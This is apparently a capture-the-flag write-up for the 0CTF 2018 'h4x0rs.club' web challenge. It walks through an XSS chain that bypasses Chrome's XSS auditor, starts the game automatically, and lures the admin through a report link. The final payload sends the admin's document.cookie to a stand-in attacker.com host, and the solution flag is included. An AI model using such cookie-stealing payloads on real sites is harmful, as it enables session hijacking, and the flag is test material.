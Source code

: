 # 0CTF 2018: h4x0rs.club  - Part II

**Category:** Web
**Points:** 687
**Solves:** 6
**Description:**

> Get document.cookie of the admin: https://h4x0rs.club/game/

**Note:** This is an unintendend solution for the challenge.
## Write-up
 
### Finding the XSS

There is a XSS on `/game/javascripts/app.js` in the function responsible for checking if the player won or lost the game.

```
function b() {
       x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show();
       [...]
 }
```

The function above copies the html of an element with id `audiences` to an element with class `js-user` so by creating these elements using the injection on `/game/?msg=` we can achieve javascript execution.

Then, theoretically, by accessing `https://h4x0rs.club/game/?msg=<div id="audiences"><script>alert(1);</div></div></div><div class="js-user"></div>` and clicking on the play button an alert should pop up after around 15 seconds (the time it takes for the game to end).

But it doesn't, we are stopped by Chrome's XSS auditor which blocks the access to the page because it detected that a `script` tag on the URL was also reflected into the page.

We can bypass it by sending `https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--alert(1);</div></div></div><div class="js-user"></div>` which isn't executed by the browser, but when appended by JQuery through the `append` function will surprisingly ignore the `<!--`
and add our tag to the `js-user` div.

### Triggering the XSS

Finding the XSS isn't all that is needed to solve this challenge, given the user would have to click in the play button for the XSS to be triggered, and in this case, the admin will not interact in any way with the page after accessing it.

This is when the code on `/game/javascripts/client.js` comes in handy.

```
$( document ).ready(function() {
    CLIENT_GAME.init();
    [...]
    setTimeout(function(){$('.js-difficulty').children().click();}, 1000);
});
```

The code above will get all childrens of the elements with class `js-difficulty` and then click on them, exactly what we need to finish the chain.
By creating a div with class `js-difficulty` and inside it creating another div with class `js-start-button` we can start the game without any user interaction.

You can test it by accessing:

```https://h4x0rs.club/game/?msg=<div class="js-difficulty"><div class="js-start-button"></div>```

Combining these two we arrive at the final payload that will be sent to the admin:

```https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--location.href="http://attacker.com/?cookie="+document.cookie;</div></div></div><div class="js-user"></div><div class="js-difficulty"><div class="js-start-button"></div>```

### Sending the payload

The biography also isn't being properly sanitized, so you can set it to:

```<a href="http://attacker.com/redirect.html" id="report-btn"></a>```

Further, reporting your own profile to the admin with the hash `report` added to it will make the admin click on the link and be redirected to your website, because the code below is present in the page:

```
if(location.hash.slice(1) == 'report'){
       document.getElementById('report-btn').click();
}
```

Then you make `redirect.html` redirect the admin again to your final payload, which will start the game and trigger the XSS, sending his session (and the flag) back to you.

## Flag

```flag{postman_1n_the_middl3}```

### Contact

If you have any questions feel free to contanct me on [@lbherrera_](https://twitter.com/lbherrera_)
